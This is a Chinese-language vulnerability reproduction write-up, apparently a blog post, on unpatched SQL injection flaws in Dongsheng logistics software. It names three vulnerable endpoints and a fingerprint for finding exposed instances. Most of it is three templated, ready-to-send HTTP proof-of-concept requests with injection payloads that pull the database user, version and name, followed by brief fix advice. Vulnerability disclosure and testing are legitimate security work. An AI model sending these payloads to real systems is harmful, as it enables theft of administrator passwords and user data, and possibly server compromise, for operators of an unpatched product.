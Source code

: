 
# 东胜物流软件 SQL 注入漏洞复现

### 0x01 产品简介

 东胜物流软件是一款致力于为客户提供 IT 支撑的 [SOP](https://so.csdn.net/so/search?q=SOP&spm=1001.2101.3001.7020)，帮助客户大幅提高工作效率，降低各个环节潜在风险的物流软件。

### 0x02 漏洞概述

东胜物流软件 TCodeVoynoAdapter.aspx、/TruckMng/MsWlDriver/GetDataList、/MvcShipping/MsBaseInfo/SaveUserQuerySetting 等接口处存在 [SQL](https://so.csdn.net/so/search?q=SQL&spm=1001.2101.3001.7020) 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

微步资产测绘：app=东胜物流软件

### ![](assets/1701134640-878dc246fd7b10e21623127a67e6d803.png)0x04 漏洞复现 

**PoC-1**

```http
GET /FeeCodes/TCodeVoynoAdapter.aspx?mask=0&pos=0&strVESSEL=1%27+and+user+%3E0%3B-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询当前用户

![](assets/1701134640-36b13a9ef03b3aa72cfa88ba10ca0a74.png)

**PoC-2** 

```http
GET /TruckMng/MsWlDriver/GetDataList?_dc=1665626804091&start=0&limit=30&sort=&condition=123+IN+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2bCHAR(32)%2b(select+%40%40version)%2bCHAR(32)%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113))--%20&page=1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

[查询数据库版本](https://so.csdn.net/so/search?q=%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC&spm=1001.2101.3001.7020)

![](assets/1701134640-9dae57672c471ee1226fc7bb54a662db.png)

PoC-3

```http
POST /MvcShipping/MsBaseInfo/SaveUserQuerySetting HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

formname=MsRptSaleBalProfitShareIndex'+AND+2523+IN+(SELECT+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2b(SELECT+SUBSTRING((ISNULL(CAST((+db_name%28%29)+AS+NVARCHAR(4000)),CHAR(32))),1,1024))%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113)))+AND+'uKco'%3d'uKco&isvisible=true&issavevalue=true&querydetail=%7B%22PS_MBLNO%22%3A%22%22%2C%22PS_VESSEL%22%3A%22%22%2C%22PS_VOYNO%22%3A%22%22%2C%22PS_SALE%22%3A%22%5Cu91d1%5Cu78ca%22%2C%22PS_OP%22%3Anull%2C%22PS_EXPDATEBGN%22%3A%222020-02-01%22%2C%22PS_EXPDATEEND%22%3A%222020-02-29%22%2C%22PS_STLDATEBGN%22%3A%22%22%2C%22PS_STLDATEEND%22%3A%22%22%2C%22PS_ACCDATEBGN%22%3A%22%22%2C%22PS_ACCDATEEND%22%3A%22%22%2C%22checkboxfield-1188-inputEl%22%3A%22on%22%2C%22PS_CUSTSERVICE%22%3Anull%2C%22PS_DOC%22%3Anull%2C%22hiddenfield-1206-inputEl%22%3A%22%22%7D}
```

 查询当前数据库

![](assets/1701134640-4f6d958652577c98a524e307f1dc7b17.png)

### 0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：http://www.dongshengsoft.com/

部署 Web 应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。
